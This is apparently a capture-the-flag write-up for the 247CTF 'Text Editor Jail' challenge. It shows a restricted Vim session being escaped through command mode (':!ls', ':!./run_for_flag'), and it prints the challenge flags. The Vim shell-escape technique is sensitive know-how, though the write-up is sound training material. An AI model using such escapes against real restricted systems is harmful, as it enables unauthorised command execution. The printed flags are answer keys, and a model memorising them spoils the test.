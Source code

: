 # Misc: The Text Editor Jail

## Previous Flag
```
247CTF{61f66e2b26507d2498f78b4a77665cb8}
```

## Goal
We didn't have time to setup and test a proper jail, so this text editor will have to do for now. Can you break free?

## What I learned
```
execute arbitrary shell commands inside VIM via command mode
:ls             to do commands inside vim vulnerability

GTFOBins: https://gtfobins.github.io/gtfobins/vim/
HackTricks: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
```

## Solution
```
START CHALLENGE

https://9b0b2c5209e9bf4c.247ctf.com/
Opens up VIM

:!ls -la ⌨️
ENTER or type command to continue
total 828
drwxr-sr-x    1 notroot  notroot         26 Aug 18  2019 .
drwxr-xr-x    1 root     root            21 Aug  6  2019 ..
-rwxrwxr-x    1 notroot  notroot     844704 Jul 30  2019 run_for_flag 👀

:!./run_for_flag ⌨️
Press ENTER or type command to continue
247CTF{c69287be15653ac9ab47dcd3f2fcd8fa} 🔐
```

## Flag
247CTF{c69287be15653ac9ab47dcd3f2fcd8fa}

## Continue
[Continue](../247ctf/MiscAnImpossibleNumber.md)